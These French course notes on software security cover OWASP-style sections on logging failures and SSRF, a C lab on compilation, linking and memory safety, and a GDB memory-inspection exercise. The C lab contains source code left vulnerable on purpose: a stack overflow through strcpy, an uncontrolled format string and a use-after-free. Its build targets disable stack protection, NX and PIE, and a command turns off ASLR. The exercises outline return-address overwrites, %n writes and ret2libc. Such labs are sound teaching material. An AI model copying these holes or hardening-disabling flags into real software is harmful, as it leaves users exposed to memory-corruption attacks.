Les attaques sophistiquées peuvent tenter d'effacer ou de contourner les journaux.
-
L'efficacité dépend fortement de l'analyse humaine ou automatisée.
-
-
Conclusion :
Les Security Logging and Monitoring Failures affaiblissent fortement la capacité d'une organisation à détecter et gérer les incidents. Une approche combinant journalisation complète, surveillance active et processus de réponse est essentielle pour réduire les risques.
A10 - Server-Side Request Forgery (SSRF) :
-
Présentation de la vulnérabilité :
La vulnérabilité Server-Side Request Forgery (SSRF) survient lorsque l'application permet à un attaquant de forcer le serveur à effectuer des requêtes HTTP ou réseau non prévues.
Elle apparaît lorsque l'application :
-
accepte des URL fournies par l'utilisateur sans validation,
-
effectue des requêtes côté serveur vers des ressources internes ou externes,
-
ne restreint pas les destinations accessibles.
Cette vulnérabilité peut permettre à un attaquant d'accéder à :
-
des services internes non exposés,
-
des métadonnées cloud,
-
des ressources réseau protégées.
-
-
Scénario(s) d'exploitation :
Scénario : Accès à des services internes via SSRF :
Hypothèses techniques :
-
L'application permet de fournir une URL à charger côté serveur.
-
Aucun filtrage ou liste blanche n'est appliqué.
-
Le serveur a accès à des ressources internes sensibles.
Étapes générales :
-
L'attaquant fournit une URL contrôlée dans une fonctionnalité de l'application.
-
Le serveur exécute la requête sans validation.
-
La requête cible un service interne ou une adresse réservée.
-
Les informations internes sont retournées à l'attaquant.
Ce scénario illustre une exposition indirecte de ressources internes via le serveur applicatif.
-
-
Causes racines :
Les causes racines sont généralement :
-
absence de validation des URL fournies par l'utilisateur,
-
mauvaise séparation entre réseau interne et externe,
-
méconnaissance des risques liés aux requêtes côté serveur.
Il s'agit principalement d'un problème de conception et de validation des entrées.
-
-
Impacts de sécurité :
-
Confidentialité : accès à des données ou services internes.
-
Intégrité : possibilité d'interagir avec des services internes.
-
Disponibilité : exploitation pour effectuer des attaques internes ou des dénis de service.
L'impact global peut être très élevé, notamment dans les environnements cloud.
-
-
Contre-mesures logicielles :
Niveau code :
-
Valider strictement les URL fournies par les utilisateurs.
-
Mettre en place des listes blanches de destination autorisées.
-
Bloquer l'accès aux adresses internes et réservées.
Niveau architecture applicative :
-
Segmenter le réseau et limiter les accès sortants du serveur.
-
Désactiver l'accès aux services internes non nécessaires.
-
Surveiller les requêtes sortantes.
Mesures préventives et détectives :
-
Préventives : filtrage réseau, validation des entrées.
-
Détectives : surveillance des requêtes sortantes et alertes.
-
-
Limites et risques résiduels :
-
Les attaques SSRF peuvent être complexes à détecter.
-
Les environnements cloud augmentent la surface d'attaque.
-
Une mauvaise configuration réseau peut réintroduire le risque.
-
-
Conclusion :
Les Server-Side Request Forgery (SSRF) représentent une menace importante pour les architectures modernes. Une combinaison de validation stricte, segmentation réseau et surveillance est indispensable pour limiter les risques.
Labo C - Compilation, édition de liens, debugging & sécurité mémoire :
Les fichiers du Labo C sont :
-
Le fichier `README.md` est :
# Labo C - Compilation, Édition de liens, Debugging & Sécurité mémoire Ce laboratoire complet en langage C permet d'apprendre : - Le processus de compilation (`.c → .o`) - L'édition de liens (archives statiques `.a`, bibliothèques `.so`) - L'analyse des binaires (`nm`, `objdump`, `readelf`, `file`) - Le debugging avancé avec `gdb` - L'observation des sections mémoire (stack / heap / .text / GOT / PLT) - Les vulnérabilités mémoire : - Stack buffer overflow - Heap Use-After-Free - Format String - Overwrite de fonction (function pointer) - Ret2libc / ROP (initiation) - Les mécanismes de protection : - ASLR, PIE - NX - Stack canaries - RELRO **IMPORTANT** Toutes les manipulations sont à exécuter **uniquement dans une VM isolée**. --- # 1. Arborescence src/ main.c util.c / util.h mathlib.c / mathlib.h vuln.c / vuln.h heap.c fmtstr.c Makefile --- # 2. Compilation ## Tout compiler Génère : - `bin/main` : programme principal - `bin/vuln_nosafe` : version vulnérable (sans protections) - `lib/libmath.a` : archive statique - `lib/libmath.so` : bibliothèque partagée --- # 3. Utilisation ./bin/main vuln "AAAA" ./bin/main callfp ./bin/main heap "HELLO" ./bin/main fmt "%p %p %p" Version vulnérable pour exploitation : ./bin/vuln_nosafe vuln $(python3 -c "print('A'*200)") --- # 4. Analyse des binaires nm -C bin/main nm -C lib/libmath.a readelf -h bin/main objdump -d bin/main | less objdump -d lib/libmath.so | less --- # 5. Debugging GDB gdb --args bin/main vuln AAAAAAAAAA (gdb) break vuln_input (gdb) run (gdb) info frame (gdb) disassemble (gdb) x/40x $rsp --- # 6. Exercices sécurité ### Buffer overflow (stack) - Calculer l'offset jusqu'au RIP - Overwrite du retour pour exécuter `secret_admin()` - Comparer comportements avec / sans PIE et stack-protector ### Overwrite d'un function pointer - Trouver l'adresse de `global_fp` - L'écraser via un overflow ### Format String - Lire la stack via `%p %p %p ...` - Écrire en mémoire via `%n` ### Heap Use-After-Free - Observer réutilisation de chunk - Corrompre données réallouées ### Ret2libc (initiation) - Trouver l'adresse de `system()` dans libc - Construire un payload simple --- # 7. Protections & durcissement Construire un binaire protégé : gcc -g -O2 -fstack-protector-strong -D_FORTIFY_SOURCE=2 -Wl,-z,relro,-z,now -fPIE -pie -o main_hardened src/*.c Désactiver ASLR temporairement (root) : echo 0 | sudo tee /proc/sys/kernel/randomize_va_space Ou exécuter sans ASLR : setarch uname -m -R ./bin/vuln_nosafe --- # 8. Avertissement Ce labo ne doit être utilisé **que pour l'apprentissage**. Ne jamais appliquer ces techniques hors environnement autorisé. --- # 9. Mots de l'Auteur Labo conçu pour la formation *Software Security / Sécurité logicielle*.Un fichier .a est une archive qui contient des objets compilés (.o). Ces objets sont composés directement dans le binaire final au moment du linking.
Un fichier .so (shared object) est chargé à l'exécution, pas intégré au binaire.
Pour utiliser la commande file, soit on utilise Git Bash pour Windows ou sinon l'installe via MSYS2 avec la commande suivante :
pacman -S fileOu alors utiliser la commande certutil -dump dans Windows pour fournir le type MIME.
Windows n'a pas d'équivalent direct de readelf parce qu'il n'utilise pas ELF. Mais tu peux analyser un binaire PE avec dumpbin.
readelf dumpbin readelf -h dumpbin /headers readelf -s dumpbin /symbols readelf -r dumpbin /imports readelf -d dumpbin /exports gcc util.c -o util.oLa commande précédente lance une erreur car il manque le paramètre -c afin de compiler. Cela donne ceci :
gcc -c util.c -o util.o -
Le fichier `Makefile` est :
CC = gcc CFLAGS = -g -Wall -fno-omit-frame-pointer SRC = src OBJDIR = obj all: bin/main bin/vuln_nosafe lib/libmath.a lib/libmath.so $(OBJDIR): mkdir -p $(OBJDIR) $(OBJDIR)/util.o: $(SRC)/util.c $(SRC)/util.h | $(OBJDIR) $(CC) $(CFLAGS) -c $< -o $@ $(OBJDIR)/mathlib.o: $(SRC)/mathlib.c $(SRC)/mathlib.h | $(OBJDIR) $(CC) $(CFLAGS) -fPIC -c $< -o $@ $(OBJDIR)/vuln.o: $(SRC)/vuln.c $(SRC)/vuln.h | $(OBJDIR) $(CC) $(CFLAGS) -c $< -o $@ $(OBJDIR)/heap.o: $(SRC)/heap.c | $(OBJDIR) $(CC) $(CFLAGS) -c $< -o $@ $(OBJDIR)/fmtstr.o: $(SRC)/fmtstr.c | $(OBJDIR) $(CC) $(CFLAGS) -c $< -o $@ lib/libmath.a: $(OBJDIR)/mathlib.o mkdir -p lib ar rcs $@ $^ lib/libmath.so: $(SRC)/mathlib.c mkdir -p lib $(CC) -shared -fPIC -o $@ $< bin/main: $(OBJDIR)/util.o $(OBJDIR)/vuln.o $(OBJDIR)/heap.o $(OBJDIR)/fmtstr.o $(SRC)/main.c lib/libmath.a mkdir -p bin $(CC) $(CFLAGS) -no-pie -o $@ $(OBJDIR)/util.o $(OBJDIR)/vuln.o $(OBJDIR)/heap.o $(OBJDIR)/fmtstr.o $(SRC)/main.c -Llib -lmath -Wl,-rpath,'$$ORIGIN/../lib' bin/vuln_nosafe: $(OBJDIR)/util.o $(OBJDIR)/vuln.o $(OBJDIR)/heap.o $(OBJDIR)/fmtstr.o $(SRC)/main.c lib/libmath.a mkdir -p bin $(CC) -g -fno-stack-protector -z execstack -no-pie -o $@ $(OBJDIR)/util.o $(OBJDIR)/vuln.o $(OBJDIR)/heap.o $(OBJDIR)/fmtstr.o $(SRC)/main.c -Llib -lmath -Wl,-rpath,'$$ORIGIN/../lib' clean: rm -rf obj bin libVoici quelques explications :
CC = gcc → compilateur utilisé CFLAGS = -g -Wall -fno-omit-frame-pointer # -g → inclut les symboles de debug # -Wall → active tous les warnings # -fno-omit-frame-pointer → nécessaire pour l'analyse en debug/gdb/exploit SRC = src → dossier où sont les sources OBJDIR = obj → dossier où seront placés les .omake pour construire le programme principal bin/main, une version vulnérable bin/vuln_no-safe, la lib statique, la lib dynamique.
Pour installer make sur Windows, on peut utiliser la commande :
pacman -S make$(OBJDIR): mkdir -p $(OBJDIR)Make crée automatiquement le dossier obj avant de compiler.
Chaque règle compile un fichier .c du dossier src/ en .o dans obj/.
L'option -fPIC est nécessaire pour créer une bibliothèque partagée (.so).
lib/libmath.a: $(OBJDIR)/mathlib.o mkdir -p lib ar rcs $@ $<Ce code crée une biblio statique (.a), lib/libmath.a, qui contient mathlib.o et qui utilise ar pour créer l'archive.
$@ représente le fichier à construire, c'est-à-dire la cible de la règle. Ici, $@ = lib/libmath.a.
$< représente la première dépendance après le deux-points, c'est-à-dire le premier fichier listé dans les dépendances. Ici, $< = obj/mathlib.o.
$^ représente toutes les dépendances (sans duplicata).
$+ représente toutes les dépendances (avec duplicata).
$? représente les dépendances plus récentes que la cible.
lib/libmath.so: $(SRC)/mathlib.c mkdir -p lib $(CC) -shared -fPIC -o $@ $<Ce code crée compile directement mathlib.c (pas libmath.o, mais possible) et produit une bibliothèque partagée libmath.so.
clean: rm -rf obj bin libCe code supprime tout ce qui a été généré.
On peut installer ollydbg avec la commande suivante :
sudo apt install ollydbgPour mettre à jor MSYS2 avant d'installer des paquets :
pacman -SyuFermer le terminal et dans le nouveau terminal :
pacman -uPour installer GCC dans MSYS2 :
pacman -S mingw-w64-x86_64-gcc -
Le fichier `util.h` est :
#ifndef UTIL_H #define UTIL_H void print_banner(void); #endifLe fichier `util.c` est :
#include "util.h" #include <stdio.h> void print_banner(void) { puts("=== Labo C : compilation & sécurité ==="); } -
Le fichier `mathlib.h` est :
#ifndef MATHLIB_H #define MATHLIB_H int add(int a, int b); int secret(void); #endifLe fichier `mathlib.c` est :
#include "mathlib.h" #include <stdio.h> int add(int a, int b) { return a + b; } int secret(void) { puts("You reached secret()"); return 42; } -
Le fichier `vuln.h` est :
#ifndef VULN_H #define VULN_H void vuln_input(char *s); void call_funcptr(void); #endifLe fichier `vuln.c` est :
#include "vuln.h" #include <stdio.h> #include <string.h> void secret_admin() { puts("Secret admin function: privileged action!"); } void (*global_fp)() = NULL; void vuln_input(char *s) { char buf[64]; strcpy(buf, s); // vulnérabilité volontaire printf("You entered: %s\n", buf); } void call_funcptr(void) { if (global_fp) { puts("Calling function pointer global_fp()"); global_fp(); } else { puts("global_fp is NULL"); } } -
Le fichier `fmtstr.c` est :
#include <stdio.h> void fmt_demo(char *user) { char buf[128]; snprintf(buf, sizeof(buf), user); // vuln format string volontaire printf("formatted: %s\n", buf); } -
Le fichier `heap.c` est :
#include <stdio.h> #include <stdlib.h> #include <string.h> void heap_demo(const char *input) { char *p = malloc(64); if (!p) return; strcpy(p, "initial"); printf("Before free: %s\n", p); free(p); // Use-after-free volontaire printf("After free (UAF): %s\n", p); if (input) { char *q = malloc(64); if (!q) return; strcpy(q, input); printf("New chunk content: %s\n", q); free(q); } } -
Le fichier `main.c` est :
#include <stdio.h> #include <stdlib.h> #include <string.h> #include "util.h" #include "mathlib.h" #include "vuln.h" void heap_demo(const char *input); void fmt_demo(char *user); int main(int argc, char **argv) { print_banner(); printf("add(2,3) = %d\n", add(2,3)); printf("secret() addr maybe: %p\n", (void*)secret); if (argc >= 2) { if (!strcmp(argv[1], "vuln") && argc >= 3) { vuln_input(argv[2]); } else if (!strcmp(argv[1], "callfp")) { call_funcptr(); } else if (!strcmp(argv[1], "heap") && argc >= 3) { heap_demo(argv[2]); } else if (!strcmp(argv[1], "fmt") && argc >= 3) { fmt_demo(argv[2]); } else { printf("Usage: %s [vuln <str> | callfp | heap <str> | fmt <fmt>]\n", argv[0]); } } else { printf("No action specified. Try: vuln, callfp, heap, fmt\n"); } return 0; }
Labo memlab :
Ce que ce combo permet d'apprendre :
-
Structure mémoire d'un processus
-
Stack vs Heap vs .data vs .rodata
-
Inspecter les adresses avec GDB
-
Lire/écrire dans la mémoire (sans exploitation)
-
VIsualiser plusieurs variables dans des régions différentes
-
Comprendre comment le programme est chargé en mémoire
-
Code C simple : memlab.c :
Copier-collez ce fichier tel quel.
#include <stdio.h> #include <stdlib.h> #include <string.h> int global_var = 123; // Stockée dans .data const int const_global = 999; // Stockée dans .rodata void show_addresses() { int local_var = 42; // Stack int *heap_var = malloc(sizeof(int)); *heap_var = 777; // Heap static int static_var = 555; // .data printf("=== Memory Regions ===\n"); printf("Address of global_var : %p\n", (void*)&global_var); printf("Address of const_global : %p\n", (void*)&const_global); printf("Address of static_var : %p\n", (void*)&static_var); printf("Address of local_var : %p\n", (void*)&local_var); printf("Address of heap_var (ptr) : %p\n", (void*)&heap_var); printf("Address of *heap_var : %p\n", (void*)heap_var); printf("\nValues:\n"); printf("global_var = %d\n", global_var); printf("local_var = %d\n", local_var); printf("*heap_var = %d\n", *heap_var); printf("\nEnter something to stop program (PID inspectable)...\n"); getchar(); free(heap_var); } int main() { show_addresses(); return 0; } -
Compilation :
Compiler en conservant les symboles :
gcc -g -O0 memlab.c -o memlab -
Lancer dans GDB :
gdb ./memlabPuis exécuter :
break show_addressesrun -
Inspecter les adresses :
Quand l'exécution s'arrête dans show_addresses, on peut inspecter les variables :
-
Lister les variables locales :
info locals -
Voir leur adresse :
p &local_varp &heap_varp heap_var -
Voir la mémoire brute :
x/20x &local_var -
Voir la mémoire du heap :
x/10x heap_var
-
-
Modifier la mémoire (en toute sécurité) :
-
Modifier la valeur de local_var :
set variable local_var = 999 -
Modifier la valeur dans le heap :
set {int}heap_var = 5555 -
Modifier un octet en mémoire :
set {char}heap_var = 0x41
-
-
Voir les sections mémoire :
Pour comprendre où se trouvent les variables :
info proc mappingsOu en Windows :
maintenance info sections -
Trouver l'emplacement exact des segments :
Tu peux afficher les valeurs imprimées par le programme :
continuePuis quand il s'arrête au getchar(), GDB reste ataché.
-
Exercices pédagogiques (sécurisés) :
-
Exercice 1 :
Trouver l'adresse du global_var dans GDB et vérifier avec printf.
p &global_var -
Exercice 2 :
Afficher 16 octets autour de la variable locale.
x/16x &local_var -
Exercice 3 :
Modifier la valeur de *heap_var
set {int} heap_var = 5555Ensuite, continuer l'exécution :
continue -
Exercice 4 :
Afficher les sections (stack, heap, .data, .text) et identifier chaque variable.
info proc mappingsOu sur Windows :
maintenance info sections -
Exercice 5 :
Trouver l'adresse de la fonction show_addresses :
p show_addressesEt afficher quelques instructions :
disas show_addresses
-
Commandes GDB utiles (cheat-sheet) :
| Commande | Description |
|---|---|
| break <func> | breakpoint à la fonction |
| break *0x401234 | breakpoint addr |
| run [args] | |
| start | démarre le programme et stoppe à la fn main |
| next / step | step over/ into (exécution pas à pas) |
| finish | run until current function returns |
| info functions | lister les fonctions |
| info address secret | adresse d'une fonction |
| p &var | print adresse d'une var |
| p/x var | afficher var en hex |
| x/x <addr> | examiner mémoire (hex) |
| disassemble <func> | |
| layout asm | mode TUI asm |
| info frame | |
| backtrace | |
| set pagination off |